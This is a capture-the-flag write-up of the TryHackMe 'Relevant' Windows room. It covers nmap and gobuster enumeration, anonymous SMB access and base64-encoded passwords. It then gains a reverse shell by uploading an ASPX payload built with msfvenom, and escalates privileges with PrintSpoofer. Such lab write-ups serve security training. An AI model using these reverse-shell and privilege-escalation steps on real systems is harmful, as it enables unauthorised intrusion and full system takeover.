# Relevant Writeup

## Overview

This is my writeup for the Relevant room on TryHackMe.  This as incredibly well-designed room which really tests your enumeration abilities.  It is an unfortunate reality that the most obvious finding is not always exploitable.  This is why this room was created - to allow you to take a step back, look at your findings, and adapt your approach accordingly.

This room is not guided, so may not be ideal for beginners.  I would recommend attempting other rooms like [HackPark](https://tryhackme.com/room/hackpark) and [Skynet](https://tryhackme.org/room/skynet) to get a feel for what is required to tackle this room.

## How to Access

I completed this on TryHackMe as part of the Offensive Pentesting learning path.  You can access it [here](https://tryhackme.com/room/relevant).

## Steps

#### Rules of Engagement

The instructions for this room define the following rules of engagement:

- Any tools or techniques are permitted, however we ask that you attempt manual exploitation first
- Locate and note all vulnerabilities found
- Submit the flags discovered to the dashboard (`user.txt` and `root.txt`)
- Only the IP addres assigned to your machine is in scope
- Find and report **ALL** vulnerabilities (yes, there is more than one path to root)

With that all noted down, let's begin!

#### Scanning

As usual, let's start with an `nmap` scan of the target system:

```
$ nmap -sC -sV -oN scans/nmap_initial -p- 10.10.183.73
# Nmap 7.91 scan initiated Thu May 27 12:29:11 2021 as: nmap -sC -sV -oN scans/nmap_initial -p- 10.10.183.73
Nmap scan report for 10.10.183.73
Host is up (0.038s latency).
Not shown: 65527 filtered ports
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2021-05-27T11:32:31+00:00
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2021-05-26T10:49:52
|_Not valid after:  2021-11-25T10:49:52
|_ssl-date: 2021-05-27T11:33:11+00:00; -2s from scanner time.
49663/tcp open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h23m58s, deviation: 3h07m51s, median: -2s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-05-27T04:32:34-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-27T11:32:35
|_  start_date: 2021-05-27T10:50:09

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 27 12:33:13 2021 -- 1 IP address (1 host up) scanned in 241.92 seconds
```

As the output shows, there are **7** ports open on the target machine:
- HTTP on port 80 (Microsoft IIS httpd v2.0)
- MSRPC on port 135
- Netbios-ssn on port 139
- Microsoft-ds on port 445 (SMB)
- MS-WBT-Serber on port 3389
- HTTP on port 49663 (Microsoft IIS httpd v10.0)
- MSRPC on ports 49667 and 49669

The machine is also running Windows Server 2016.

#### Enuemration

Let's first enumerate Samba service on port 445 using `smbclient`:



So we have **four** shares:
- ADMIN$
- C$
- IPC$
- nt4wrksv

It turns out that the `nt4wrksv` share can be accessed anonymously:



As shown above, there is a `passwords.txt` file stored on the share.  We can use the `get` command to retrieve the file.  Let's look at the contents of the file:

```
[User Passwords - Encoded]
Qm9iIC0gIVB*****************
QmlsbCAtIEp1dzRubmFNNG4*****************
```

In this file, there are two base64 strings.  Decoding these reveals the passwords for two users `bob` and `bill`:




Unfortunately, there isn't anything we can do with these passwords.  So let's reassess what we found with our initial `nmap` scan.

We see that there are two web servers on ports 80 and 49663, respectively.  Both of these display the default IIS (Internet Information Services) web pages:



Now, let's fire up `gobuster` to enumerate the directories on each port:




As you can see, nothing showed up on the first scan.  However, the second scan showed a hit for the `/nt4wrksv` directory.  Recall that this is the name of the SMB share which we were able to access anonymously.

To confirm this, we can navigate to `/nt4wrks/passwords.txt`:



This means that we can upload files to the SMB share and access them through our browser.  So let's try and upload a reverse shell.

#### Exploitation

Since this is an ISS machine, they require .aspx shells.  I used this one [here](https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx) but you can also create one with `msfvenom` using the following command:

```
msfvenom -p windows/x86/shell_reverse_tcp LHOST<your_ip> LPORT=<your_listening_port> -f aspx -o shell.aspx
```

Let's now upload this through SMB:



We also need to start a `netcat` listener on the port we declared when creating the payload.  Now, navigate to `/nt4wkrs/shell.aspx` in your browser.  `netcat` should catch the callback:



We can now retrieve the `user.txt` flag from the `C:\Users\Bob\Desktop` directory:



#### Privilege Escalation

Now that we have shell access, let's check out what privileges we have:



`SeImpersonatePrivilege` immediately stands out to me as something that we can use to escalate our privileges.  While conducting a bit of research into this, I stumbled across the following GitHub repository:

https://github.com/dievus/printspoofer

This allows you to escalate service user privileges on Windows Server 2016, Server 2019, and Windows 10 machines using the `SeImpersonate` privilege.

Firstly, clone this repository to your system using `git clone`.  Then, using the SMB share, upload the exploit to the target machine:



These share files are stored in the `C:\inetpub\wwwroot\nt4wrksv` directory.  Let's navigate to that on our current shell and execute the exploit:



We can then retrieve the `root.txt` flag in the `C:\Users\Administrator\Desktop` directory:


And that's it!  All done!

## Summary and Feedback

In this room we:
- Scanned ports using `nmap`
- Used `gobuster` to enumerate directories
- Used `smbclient` to enumerate Samba (SMB) shares
- Decoded passwords using `base64`
- Exploited SMB shares to gain a reverse shell
- Escalated our privileges by exploiting the `SeImpersonate` privilege

This room was a real test of my enumeration abilities.  When faced with failure, it forced me to reassess what I had discovered and adapt my approach.  

I hope you enjoyed this writeup and learned a thing or two from this room.